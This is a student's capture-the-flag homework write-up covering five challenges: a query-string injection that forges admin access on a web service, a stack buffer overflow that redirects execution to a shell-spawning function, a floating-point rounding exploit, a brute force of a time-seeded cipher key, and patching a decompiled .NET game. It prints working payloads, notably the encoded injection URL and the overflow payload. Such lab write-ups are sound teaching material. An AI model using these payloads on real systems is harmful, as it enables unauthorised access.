





# HW0 writeup

## Web - owoHub
> FLAG{owo_ch1wawa_15_th3_b35t_uwu!!!}

1. Check *source code*
   - how to get flag?
      ```js
      // but the function can't be directly access by external users
      if (givemeflag === "yes" && userInfo.admin) response.send(FLAG);
      ```
   - where can be used?
      > `app.get('/auth', (request, response) => { const { username, cute } = request.query;`

      a. only check that `cute` end with `true` or `false`
      ```js
      if (typeof username !== "string" || typeof cute !== "string" || username === "" || !cute.match("(true|false)$"))
      ```
      b. `userInfo` take `cute` from the request query directly
      ```js
      const userInfo = `{"username":"${username}","admin":false,"cute":${cute}}`;
      ```
      c. use `userInfo` define in the previous step in the url and be used to `GET` **internally**
      ```js
      const api = `http://127.0.0.1:9487/?data=${userInfo}&givemeflag=no`;
      ```
2. give a random `username` and `cute`  
   `https://owohub.zoolab.org/auth?username=a&cute=true`
3. make `admin` to be true
   `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true`
   - since `userInfo` is `{"username":"${username}","admin":false,"cute":${cute}}`, by injecting `cute` previous key/value pair `"admin":false`
   - make `cute` to be `true,"admin":true`, `userInfo` will then be `{"username":"a","admin":false,"cute":true}`. That is, `{"username":"a","admin":true,"cute":false}`
4. make `givemeflag` to be `"yes"`
   1. want something like this, `https://owohub.zoolab.org/auth?username=a&cute=true,"admin":true}&givemeflag=yes#true`
      > `}` close the bracket for `useInfo` which make all the things after it not a part of `userInfo`  
      > `#` point a browser to a specific part or page but all characters after `#` will not be sent in request  
      - make `api` to be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes#true&givemeflag=no`
      - the actual request being send internally should be `http://127.0.0.1:9487/?data={"username":"a","admin":true,"cute":false}&givemeflag=yes`
   2. try and get `{"error":"Whaaaat owo?"}`
      - currently, `cute` is `false,"admin":true}` so that it doesn't end with `true` or `false`
      - `cute` only take the part before the next `&`
   3. *url encoding* to bypass it
      > find the correspoding encode for `"}&#`  
      - then, the url should be `https://owohub.zoolab.org/auth?username=a&cute=true,%22admin%22:true%7D%26givemeflag=yes%23true`

## pwn - Cafe Overflow
> flag{c0ffee_0verfl0win6_from_k3ttle_QAQ}  
> [solution](./pwn/solve.py)

1. disassemble the binary with `objdump -d -M intel CafeOverflow`
   ```nasm
   401234:	e8 17 fe ff ff       	call   401050 <printf@plt>
   401239:	48 8d 45 f0          	lea    rax,[rbp-0x10]
   40123d:	48 89 c6             	mov    rsi,rax
   401240:	48 8d 3d f6 0d 00 00 	lea    rdi,[rip+0xdf6]        # 40203d <_IO_stdin_used+0x3d>
   401247:	b8 00 00 00 00       	mov    eax,0x0
   40124c:	e8 1f fe ff ff       	call   401070 <__isoc99_scanf@plt>
   ```
   Use `scanf` to get input in the *main function* with a buffer size of `0x10`. Therefore, it's vulnerable to **buffer overflow**. Pad `0x10` characters to fill the gap and 8 more byte to overwrite `rbp` and then its our target, ***the return address***.
2. In order to get the flag, we have to open shell and read the content of the remote file, *flag*.
   ```nasm
   0000000000401176 <func1>:
   401176:	55                   	push   rbp
   401177:	48 89 e5             	mov    rbp,rsp
   40117a:	48 83 ec 10          	sub    rsp,0x10
   40117e:	48 89 c0             	mov    rax,rax
   401181:	48 89 45 f8          	mov    QWORD PTR [rbp-0x8],rax
   401185:	48 b8 fe ca fe ca fe 	movabs rax,0xcafecafecafecafe
   40118c:	ca fe ca 
   40118f:	48 39 45 f8          	cmp    QWORD PTR [rbp-0x8],rax
   401193:	75 22                	jne    4011b7 <func1+0x41>
   401195:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402004 <_IO_stdin_used+0x4>
   40119c:	e8 8f fe ff ff       	call   401030 <puts@plt>
   4011a1:	48 8d 3d 68 0e 00 00 	lea    rdi,[rip+0xe68]        # 402010 <_IO_stdin_used+0x10>
   4011a8:	e8 93 fe ff ff       	call   401040 <system@plt>
   4011ad:	bf 00 00 00 00       	mov    edi,0x0
   4011b2:	e8 c9 fe ff ff       	call   401080 <exit@plt>
   4011b7:	48 8d 3d 5a 0e 00 00 	lea    rdi,[rip+0xe5a]        # 402018 <_IO_stdin_used+0x18>
   4011be:	e8 6d fe ff ff       	call   401030 <puts@plt>
   4011c3:	90                   	nop
   4011c4:	c9                   	leave  
   4011c5:	c3                   	ret 
   ```
   Find a function, `fun1`, that never been called but call `system("/bin/sh")`. However, if call `func1`, it needs to fulfill certain requirement to jump to where it call `system("/bin/sh")`. Therefore, let it jump to `0x401195` directly.
3. Combine step 1 and 2.  
   `payload = 'a' * (0x10 + 8) + p64(0x401195)`

## Misc - The Floating Aquamarine
> FLAG{floating_point_error_https://0.30000000000000004.com/}  
> [solution](./misc/solve.py)  

From [src.cpp](./hw0/../misc/src.cpp), find that variable `PRICE, RICH, balance` are `float`. Therefore, the vulnerability may be due the precision of floating point. By buying a large amount and spliting to little portion for selling, one can possibly gain money as demonstrated below. Finally, by repeat it multiple times, we are able to make `balance` larger than `RICH`.
```shell
$ nc hw00.zoolab.org 65535
Welcome to Aquamarine bank! You can buy/loan and sell Aquamarine here.
The price of Aquamarine is fixed at 88.88 dollars. No bargaining!
If your balance >= 3000 dollars, you can get the flag!

Your Aquamarine: 0, balance: 0
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 100000000)
100000000
Your Aquamarine: 100000000, balance: -8.888e+09
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 0)
-3000000
Your Aquamarine: 97000000, balance: -8.62136e+09
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 3000000)
-97000000
Your Aquamarine: 0, balance: 1024
How many Aquamarine stones do you want to buy/loan (positive) or sell (negative)?
(Remaining Aquamarine in stock: 100000000)
```


## Cryptography - 解密一下
> FLAG{4lq7mWGh93}  
> [solution](./crypto/solve.py)

1. Modify source code to make it easier to read, from [encrypt.py](./crypto/encrypt.py) to [modifiedEncrypt.py](./crypto/modifiedEncrypt.py).
2. Use `time.time()` as seed for random. Therefore, by guessing around what time the [output.txt](./crypto/output.txt) is generated, the key possibility of key can be redused.
   ```python
   random.seed(int(time.time()))
   key = random.getrandbits(128).to_bytes(16, 'big')
   ```
3. Implement `decrypt` function for the corresponding `encrypt`.
   - `_encrypt`
      ```python
      def _encrypt(pts: _list[int], key: _list[int]):
         count, delta, mask = 0, 0xFACEB00C, 0xffffffff
         for _ in range(32):
            count = count + delta & mask    # delta & mask = 0xfaceb00c = 4207849484
            pts[0] = pts[0] + ((pts[1] << 4) + key[0] & mask ^ (pts[1] + count) & mask ^ (pts[1] >> 5) + key[1] & mask) & mask
            pts[1] = pts[1] + ((pts[0] << 4) + key[2] & mask ^ (pts[0] + count) & mask ^ (pts[0] >> 5) + key[3] & mask) & mask
         return pts
      ```
      Perform a certain operation 32 times on the input plaintext, adding a certain value (corresponding to `pts[1], pts[0]` and `count`) each time for `pts[0], pts[1]`. 
   - `_decrypt`
      ```python
      def _decrypt(cts, key):
         count, delta, mask = 0, 0xFACEB00C, 0xffffffff
         last = 0x59d60180
         for _ in range(32):
            cts[1] = cts[1] - ((cts[0] << 4) + key[2] & mask ^ (cts[0] + last) & mask ^ (cts[0] >> 5) + key[3] & mask) & mask
            cts[0] = cts[0] - ((cts[1] << 4) + key[0] & mask ^ (cts[1] + last) & mask ^ (cts[1] >> 5) + key[1] & mask) & mask
            last = last - delta & mask
         return cts
      ```
      Reverse `_encrypt`. Find out the last used `count`, which is `0x59d60180`, and perform certain operation 32 times, reversing the order of `cts[0], cts[1]` and substracting a certain value each time.
4. Guess [output.txt](./crypto/output.txt) is the result of [encrypt.py](./crypto/encrypt.py) `n` days ago. Starting from `n` days ago, start brute force :joy: .
   - Knowing that the flag has initial `flag{` or `FLAG`, stop when find a decrypted text has such initial and print out its seed and the result.

## Reverse - EekumBokum
> flag{NANI_KORE?(=.=)EEKUM_BOKUM(=^=)EEKUM_BOKUM}

1. Guess that by recovering the left image back to the right one one can get *flag*. However, we can only control the very right bottom grid and can never achieve the goal.  
   
2. Use `file` to check the binary to find out that it's a `.NET assembly`.
   ```shell
   $ file EekumBokum.exe
   EekumBokum.exe: PE32 executable (GUI) Intel 80386 Mono/.Net assembly, for MS Windows
   ```
3. Find a `.NET` decompiler, [dotPeek](https://www.jetbrains.com/decompiler/), to decompile *.NET assembly* to *C#*.
   
4. Export files to **Visual Studio Project**.
   
5. Fix all the errors due to the decompiling.
   
6. Adjust the codes.
   `Form1.cs`
   ```csharp
   private void samonCheck(List<PictureBox> listPitcture)
   {
      List<byte> byteList = new List<byte>();
      for (int index = 0; index < 16; ++index)
      {
         byteList.Add(((Bitmap) listPitcture[index].Image).GetPixel(66, 99).R);
         if (!listPitcture[index].Image.Equals((object) this.originalPicture[index]))
         return;
      }
      ......
      int num4 = (int) MessageBox.Show("this is your flag\n" + Encoding.ASCII.GetString(bytes));
   }
   ```
   Every time after key being pressed, call `samonCheck` to see whether it fulfill the requirement of getting the flag. In order to get the flag, images in increase order, all the image must be in certain order after the change.  
   To be able to fulfill the requirement, change the `idxMovalbe` from *15* to *14*. Then, start and press *left* to make it identical to the right image.
7. Run and get *flag*.
   